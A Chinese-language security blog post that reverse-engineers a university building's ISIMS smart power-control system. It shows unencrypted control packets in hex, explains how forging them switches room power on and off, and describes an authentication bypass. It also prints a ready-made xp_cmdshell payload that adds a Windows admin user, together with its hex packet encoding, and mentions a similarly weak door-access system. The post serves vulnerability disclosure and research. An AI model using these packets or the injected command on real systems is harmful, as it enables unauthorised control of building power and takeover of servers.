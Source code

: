 ```yaml
---
layout:     post
title:      论操纵大楼灯光打游戏的可行性
subtitle:   对ISIMS智能电控系统的分析
date:       2018-03-02
author:     volcanohatred
header-img: img/articles/控电/title.jpg
catalog: true
tags:
    - 逆向
    - socket编程
    - 渗透测试
    - 极客
---
```



>黑入电控系统然后操纵大楼灯光打游戏是很多黑客电影所有的桥段，有人觉得现实中不可能实现。我想说这种东西实现起来很容易，要想操纵电力，无非是操纵智能电控系统然后控制电力而已（当然不排除其他方法）。很多人可能会问，现实生活中不是都是机械开关么？哪来的智能电控系统，其实不然，智能电控早已普遍存在，只是很多人不知道而已。




## 1.智能电控系统

智能电控系统即对强电加入智能弱电控制模块，从而达到对电力的控制和操作。近年来，很多大型企业、学校单位为了方便对电力的管理和收费，都引进了对楼宇的智能电控系统。而且随着网络化和智能化的发展和普及，对智能电控系统的布控在国内也成增长趋势。国内做智能电控系统的厂家很多，比如新开普的电控水电表管理系统，常工电子的ISIMS智能计量管理系统等。
但是，智能电子产品的应用越普及，意味着对安全的需求也越高，作为一个安全从业者，有必要对其产品的安全进行严格把控。
## 2.对ISIMS智能计量管理软件的分析

在一次渗透测试中，拿到了某大学的电力控制服务器权限，所以本文就以这台服务器上的ISIMS智能计量管理软件为研究对象，进行分析。
ISIMS智能计量管理软件是常州股份公司开发的产品，因为它的方便性和智能性，使得国内很多大学都在用它来进行学生宿舍的计费和控制。ISIMS智能计量管理软件属于注册商用软件，所以网上是没有下载的。闲的无聊去公司官网看了看，发现应用案例还挺多。
![应用案列1](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片1.png)
![应用案列2](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片2.png)  
话不多说，开始分析吧！！！


注：此研究软件的版本        客户端 Sims 	   v3.23.15
		                  服务端 Simserv 	v3.24.01

### 2.1工作模式

ISIMS的工作模式如下图：  
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片3.png)  
client（tcp client）—>server(tcp server)—>中位机（tcp client）  
ISIMS电控系统采用C/S模式进行通讯，由客户端发送控制代码给电控服务端，服务端收到控制数据发往每层楼的中位机以此实现弱电控制强电。

### 2.2传输数据分析

用WPE对客户端的数据进行抓包分析：
A用户登陆数据包：
![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片4.png)  
电力控制数据包：  
![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片5.png)  
A用户注销数据包：  
![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片6.png)  
开关成功返回数据：  
![封包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片7.png)  
经过对数据包进行大致分析，发现传送的数据均没有进行加密处理，而且发现客户端发送的数据并无时效性，这样伪造数据包显得轻而易举。另外，对电力的控制数据包大小固定，为543字节，如果控制命令成功执行，则返回一个29字节的数据包，否则返回一个21字节大小的数据包。但是要想伪造数据包对某个特定房间进行开关电，则需要对电力控制的那个大小为543字节的数据包进行解析才能随意构造。
A用户对某个房间开数据，发往服务器：  
`00 00 00 07 00 00 00 AA 00 00 00 94 00 00 00 00 00 00 02 0B 01 2E 00 00 00 02 08 00 00 00`
`33 04 10 37 33 02 F3 00 00 00 00 00 00 69 0E 38 02 CD AB BA DC 00 00 00 00 00 00 00 00 69` `0E 38 02 AC F9 18 00 C8 F9 18 00 30 02 17 76 B8 6B 44 06 14 FA 18 00 91 6D 10 76 51 6D 10` `76 75 DE 87 6E 00 00 00 00 4A 03 03 00 B8 6B 44 06 24 00 00 00 01 00 00 00 00 00 00 00 00` `00 00 00 70 00 00 00 FF FF FF FF FF FF FF FF E9 6C 10 76 91 6D 10 76 0C FA 18 00 01 00 00` `00 00 00 00 00 7C 5E 43 06 B8 F9 18 00 60 FA 18 00 60 FA 18 00 1E A6 16 76 39 49 8F 18 FE` `FF FF FF 51 6D 10 76 E8 6D 10 76 00 00 00 00 69 0E 38 02 4A 03 03 00 99 01 00 00 03 00 00` `00 00 00 00 00 48 22 F2 00 F3 6D 10 76 11 DE 87 6E 99 01 00 00 00 00 00 00 B8 6B 44 06 04` `00 00 00 B8 C7 4B 00 7C 5E 43 06 3C FA 18 00 B8 6B 44 06 BC FA 18 00 1E A6 16 76 99 49 8F` `18 FE FF FF FF F3 6D 10 76 44 6E 10 76 20 22 F2 00 DA F8 2C 77 57 6E 10 76 94 FA 18 00 18` `00 00 00 00 00 00 00 20 22 F2 00 7C 5E 43 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00` `00 00 00 00 00 24 FB 18 00 1A 01 2C 77 C4 FA 18 00 00 00 00 00 9C FB 18 00 80 00 2C 77 20` `22 F2 00 00 00 00 00 99 01 00 00 03 00 00 00 00 00 00 00 69 0E 38 02 D2 25 2E 77 04 00 00` `00 B9 72 10 76 61 21 11 76 4A 03 03 00 99 01 00 00 03 00 00 00 00 00 00 00 00 00 00 00 B1` `02 00 00 01 00 00 00 00 00 00 00 99 01 00 00 B8 6B 44 06 00 00 00 00 AC FD 18 00 4A 03 03` `00 00 00 00 00 48 FB 18 00 7A 61 11 76 20 22 F2 00 00 00 00 00 69 0E 38 02 03 00 00 00 00` `00 00 00 01 00 00 00 03 00 00 00 BC FB 18 00 8F 85 47 00 4A 03 03 00 99 01 00 00 03 00 00` `00 F7 3C 40 00 03 00 00 00 7C 5E 43 06 B8 62 51 00 B8 6B 44 06 03 00 00 00 03 00 00 00 B8`
 `6B 44 00 `

服务器发往中位机的数据：（对服务端进行抓包）

```
7D 33 04 10 37 33 02 F3 00 AB EA 7F
```

### 2.3逆向分析

ISIMS客户端由3个动态链接库文件、1个配置文件和1个可执行文件组成。分别是CtoS.dll,midas.dll,Mwic_32.dll;
SimsClient.ini;SIMS.exe。SimsClient.ini里面是一些服务器ip，端口的信息，所以目的是对3个动态链接库文件和可执行文件进行逆向分析。SIMS.exe无壳，由Delphi编写。
Send函数位于CtoS.dll中，下条件断点使之发送的数据大小为21F（543）时断下：
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片8.png)  
在返回点下断找调用函数，以此往上找原数据组成：
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片9.png)
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片10.png)
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片11.png)
通过对数据的拆分，发现543字节大小的数据由3部分组成，前23字节的数据加16字节数据再加后面的数据。
![逆向分析](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片12.png)

### 2.4分析总结

发往服务器的543字节的数据中，前39字节为关键数据，后面的数据为无用数据，在前39个字节中后面的9位最为关键：
`00 00 00 07 00 00 00 AA 00 00 00 94 00 00 00 00 00 00 02 0B 01 2E 00 00 00 02 08 00 00 00` `33 04 10 37 33 02 F3 00 00`  
33位分隔字符，04位代表楼层编号，10代表中位机号，37为端口号，02 F3 为开电功能位。即：管理器地址+中位机地址+48加端口号》》》》转化成16进制。汇编代码如下：
![控制码](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片13.png)
![控制码](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片14.png)  
客户端启动之后会向服务器发送数据库查询指令，服务器会返回各栋楼各个中位机和房间端口的数据，放在某段内存之中，以便发送和接收数据调用。所以，得出结论，要想操纵大楼灯光打游戏就是对控制数据包的前39个字节中的后9位进行构造，然后编写算法以达到目的。


## 3.伪造数据包对寝室电力进行控制

### 3.1伪造数据开关目标房间  
初步的设计思路为编写tcp客户端向电控服务器发送登陆请求，然后伪造数据发包,最后注销用户,C代码如下：
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片15.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片22.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片17.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片18.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片19.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片20.png)
![网络编程](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片21.png)  
>上面代码中禁用nagel算法很关键，不禁用数据会先放到缓冲区，然后等到一定大小才会发送，这样发送到服务器的数据包会是一个粘在一起的包含登陆控制注销代码的数据包，服务器不会识别。  
测试：发现目标房间开关电成功。
![测试](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片27.png)
![测试](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片28.png)
![测试](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片29.png)
### 3.2操纵大楼灯光打游戏的可行性

既然我们已经分析了关键数据实现了对某个房间的开关，那就可以实现对整栋楼房间的开关。但是要想用灯光打游戏，需要考虑的是延迟性和服务器的处理能力，后来我做了相关测试，发现延迟性太高和服务器处理能力不足的问题都有出现：同时发送三个房间的开数据会出现一个房间未能开电。
这里可以改变代码的执行路径，改变ISIMS的工作模式:
![工作模式3](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片23.png)  
直接写一个服务器程序向每栋楼的串口通讯服务器的web服务发包。(需要在web服务上添加本机ip，设置端口）。
![串口通讯服务器](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片30.png)
问题得到解决。现在要考虑的就只有游戏代码问题了。（略）  
## 4.漏洞挖掘
在无意之中，发现客户端在未发送登陆数据的情况下，发送控制代码依然可以控制目标房间的电力，而在未发送登陆数据的情况下发送注销代码在服务器日志上会被记录为sa用户已退出，初步推断此系统存在验证漏洞。
在之前的OD中看到有数据库执行命令，在客户端中，当用户点击查询指令时，客户端会向服务器发送这段指令：
![漏洞挖掘](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片24.png)  
在之前的渗透测试中，发现服务器使用的是sql server数据库，既然服务器对发送的数据验证不严格，可以试着构造恶意数据库命令添加系统用户试试。多次测试分析发现，在执行数据库命令时，数据包前18位不发生改变：    
`0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x55,0x00,0x00,0x00,0x74,0x00,0x00,0x00,0x00,0x00,0x00`       
第18、19位用来表示后面要执行的sql语句的字段大小，现在构造一条添加系统用户的语句：
```  
exec master..xp_cmdshell 'net user admin admin /add'.
```   
转化位16进制：  
`0x65,0x78,0x65,0x63,0x20,0x6d,0x61,0x73,0x74,0x65,0x72,0x2e,0x2e,0x78,0x70,0x5f,0x63,0x6d,`  
`0x64,0x73,0x68,0x65,0x6c,0x6c,0x20,0x27,0x6e,0x65,0x74,0x20,0x75,0x73,0x65,0x72,0x20,0x61,`  
`0x64,0x6d,0x69,0x6e,0x20,0x61,0x64,0x6d,0x69,0x6e,0x20,0x2f,0x61,0x64,0x64,0x27,0x00`  
(总共53位）再加上前面的20位前缀：
`0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x55,0x00,0x00,0x00,0x74,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0X35`    
将构造的数据通过tcp客户端发送给服务器：
![伪造发包](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片25.png)  
服务器成功添加新用户！

## 5.扩展测试

上面做了对电力系统的测试，后来我对门禁系统也同样进行了测试，也发现了同样的问题，对数据包的验证同样无时效性，下图为向某个下属刷卡门进行测试：返回1，代表开门成功，门禁系统这里不做讨论。
![门禁](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片26.png)  
可以看出在内网之中各种基础设施和系统的脆弱性！！！原因是企业单位往往只是满足于系统的功能性，只要能用就ok，而全然不顾系统的安全性，往往部署完系统，只要能够正常运行，就不再对系统进行升级或者安全检查，这给整个内网早成了很大的安全隐患。
